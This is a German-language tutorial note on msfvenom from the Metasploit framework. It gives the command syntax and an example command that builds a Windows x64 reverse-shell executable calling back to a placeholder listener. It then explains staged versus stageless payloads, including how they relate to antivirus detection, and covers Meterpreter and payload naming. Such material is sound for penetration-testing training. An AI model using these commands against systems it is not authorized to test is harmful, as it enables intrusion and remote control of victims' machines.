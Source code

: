 
# Generelle Infos 

*Der "einmal hin alles drin" Payload laden*

msfvenom ist Teil des Metasploit-Frameworks und wird verwendet, um Code für Reverse- und Bind-Shells zu generieren. Es wird häufig bei der Entwicklung von Exploits auf niedrigerer Ebene verwendet, um hexadezimalen Shellcode zu generieren, wenn z. B. ein Pufferüberlauf-Exploit entwickelt wird; es kann jedoch auch verwendet werden, um Payloads in verschiedenen Formaten zu generieren (z. B. .exe, .aspx, .war, .py)

Standard Syntax:

```
msfvenom -p <Payload> <Options>
```

Beispiel anhand einer Windows x64 TCP Reverse shell

```
msfvenom -p windows/x64/shell/reverse_tcp -f exe -o shell.exe LHOST=<listen-IP> LPORT=<listen-port>
```

Erklärung der Optionen:
-f * Format *
	 -> Spezifiziert den output hier auf eine *.exe
-o * File *
	-> Die Output Location und den Dateinamen der Generierten Payload
LHOST=* ip *
	-> Spezifiziert die IP für das Call Back der Reverse shell
LPORT=* port* 
	-> Spezifiziert den Call back port meistens bei Metasploit 4444



# Staged und Stageless

Generell werden Payloads in zwei Konzepte unterteilt Staged und Stageless reverse shell payloads, siehe unterhalb erklärt. Stageless Payloads sind in der Regel einfacher zu verwenden und abzufangen; sie sind jedoch auch sperriger und können von einem Antiviren- oder Eindringlingserkennungsprogramm leichter entdeckt und entfernt werden. Staged Payloads sind schwieriger zu verwenden, aber der erste Stager ist viel kürzer und wird manchmal von weniger effektiven Antivirenprogrammen übersehen. Moderne Antivirenlösungen nutzen auch das Anti-Malware Scan Interface (AMSI), um die Payload zu erkennen, wenn sie vom Stager in den Speicher geladen wird, so dass gestaffelte Payloads in diesem Bereich weniger effektiv sind als früher.

### Staged

Gestufte Payloads werden in zwei Teilen gesendet. Der erste Teil wird als Stager bezeichnet. Dabei handelt es sich um einen Teil des Codes, der direkt auf dem Server selbst ausgeführt wird. Er stellt eine Verbindung zu einem wartenden Listener her, enthält aber selbst keinen Reverse-Shell-Code. Stattdessen verbindet er sich mit dem Listener und nutzt die Verbindung, um die eigentliche Payload zu laden, sie direkt auszuführen und zu verhindern, dass sie auf die Festplatte gelangt, wo sie von herkömmlichen Antivirenlösungen abgefangen werden könnte. So wird die Payload in zwei Teile aufgeteilt - einen kleinen anfänglichen Stager und dann den umfangreicheren Reverse-Shell-Code, der heruntergeladen wird, wenn der Stager aktiviert wird. Staged Payloads erfordern einen speziellen Listener - normalerweise den Metasploit Multi/Handler

### Stageless

Stagless Payloads sind gebräuchlicher. Sie sind völlig eigenständig, da es nur ein Stück Code gibt, das bei Ausführung sofort eine Shell an den wartenden Listener zurückschickt.


# Meterpreter

Ein weiterer wichtiger Punkt im Zusammenhang mit Metasploit ist eine Meterpreter-Shell. Meterpreter-Shells sind die Metasploit-eigene Marke einer voll ausgestatteten Shell. Sie sind absolut stabil, was bei der Arbeit mit Windows-Zielen von großem Vorteil ist. Außerdem verfügen sie über eine Menge eingebauter Funktionen, wie z. B. das Hoch- und Herunterladen von Dateien. Wenn wir eines der Post-Exploitation-Tools von Metasploit verwenden wollen, müssen wir eine Meterpreter-Shell verwenden, aber das ist ein anderes Thema. Der Nachteil von Meterpreter-Shells ist, dass sie in Metasploit abgefangen werden müssen

# Payload Bennenungs Syntax 

Bei der Arbeit mit msfvenom ist es wichtig zu verstehen, wie das Benennungssystem funktioniert. Die grundlegende Konvention lautet wie folgt:
```
<OS>/<Arch>/<Payload>
```

Zum Beispiel:
```
linux/x86/shell_reverse_tcp
```

Dies würde eine stufenlose Reverse-Shell für ein x86-Linux-Ziel erzeugen.
Die Ausnahme zu dieser Konvention sind Windows 32bit-Ziele. Für diese wird der Arch nicht angegeben. z.B.:

```
windows/shell_reverse_tcp
```

Für ein 64-Bit-Windows-Ziel wird der Arch wie üblich angegeben (x64).

Schauen wir uns den Payload-Abschnitt etwas genauer an.

In den obigen Beispielen wurde als Payload `shell_reverse_tcp` verwendet. Das bedeutet, dass es sich um eine Stageless Payload handelt. Wie das? Stageless Payloads werden mit Unterstrichen (_) gekennzeichnet. Das gestufte Äquivalent zu dieser Payload wäre:
```
shell/reverse_tcp
```

**Gestufte Payloads werden mit einem weiteren Schrägstrich (/) gekennzeichnet.**

Diese Regel gilt auch für Meterpreter-Payloads. Ein Windows 64bit staged Meterpreter Payload würde wie folgt aussehen:
```
windows/x64/meterpreter/reverse_tcp
```
Ein Linux 32bit stageless Meterpreter Payload würde wie folgt aussehen:

```
linux/x86/meterpreter_reverse_tcp
```

